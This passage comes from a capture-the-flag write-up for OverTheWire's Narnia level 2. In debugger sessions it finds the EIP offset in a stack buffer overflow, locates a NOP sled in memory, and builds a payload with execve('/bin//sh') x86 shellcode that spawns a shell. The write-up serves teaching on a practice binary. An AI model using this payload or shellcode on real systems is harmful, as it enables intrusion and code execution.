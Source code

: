 {% highlight bash %}
pwndbg> r $(python -c "print 'A'*132 +'B'*4 +'\\x90'*30 +'\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80'")          
Starting program\: /home/0xd4y/business/other/overthewire/narnia/2/narnia2 $(python -c "print 'A'*132 +'B'*4 +'\\x90'*30 +'\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e  
\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80'")                                            
                                                                                       
Program received signal SIGSEGV, Segmentation fault.                                                                                                                         0x42424242 in ?? ()                                                                                                                                                          
{% endhighlight %}

Note how the EIP register was successfully overwritten with 4 B’s

After executing this payload, we can view where in the EBP register lies the payload\:

{% highlight bash %}
pwndbg> x/100x $esp-200                                                                                                                                                     0xffffcec8\:     0xffffdf8b      0x00000000      0xf7fa6000      0xf7fa6000                                                                                                  0xffffced8\:     0xffffcf88      0xf7e14fe5      0xf7fa6d20      0x08048534                                                                                                   0xffffcee8\:     0xffffcf04      0x00000000      0xffffcf08      0xf7ffd980            0xffffcef8\:     0xf7e14fc5      0x08048494      0x08048534      0xffffcf08                                                                                                   0xffffcf08\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcf18\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcf28\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf38\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf48\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcf58\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf68\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf78\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf88\:     0x41414141      0x42424242      0x90909090      0x90909090  
0xffffcf98\:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffcfa8\:     0x90909090      0xc0319090      0x2f2f6850      0x2f686873  
0xffffcfb8\:     0x896e6962      0x895350e3      0xcd0bb0e1      0x00000080  
0xffffcfc8\:     0xf7fa6000      0xf7fa6000      0x00000000      0x6675dc09
{% endhighlight %}

As we can see, the junk bytes lead all the way to 0xffffcf88, and the return address starts at 0xffffcf88 + 4 which is 0xffffcf8c. The NOP sled then begins at 0xffffcf90, and the shellcode starts at 0xffffcfac. Using this information, we can construct the payload to be the following\:

{% highlight bash %}
python -c "print 'A'*132 +'\\x98\\xcf\\xff\\xff' \+ '\\x90'*30 + '\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80'"
{% endhighlight %}

The return address points to 0xffffcf98 which is an address within the boundary of the NOP sled. Therefore, this payload should go past each NOP bytes as it eventually gets to the shellcode.

{% highlight bash %}
pwndbg> r $(python -c "print 'A'*132 +'\\x98\\xcf\\xff\\xff'+'\\x90'*30 +'\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80'")          
Starting program\: /home/0xd4y/business/other/overthewire/narnia/2/narnia2 $(python -c "print 'A'*132 +'\\x98\\xcf\\xff\\xff'+'\\x90'*30 +'\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80'")  
process 5966 is executing new program\: /usr/bin/dash  
$ whoami  
[Attaching after process 5966 fork to child process 5974]  
[New inferior 2 (process 5974)]  
[Detaching after fork from parent process 5966]  
[Inferior 1 (process 5966) detached]  
process 5974 is executing new program\: /usr/bin/whoami  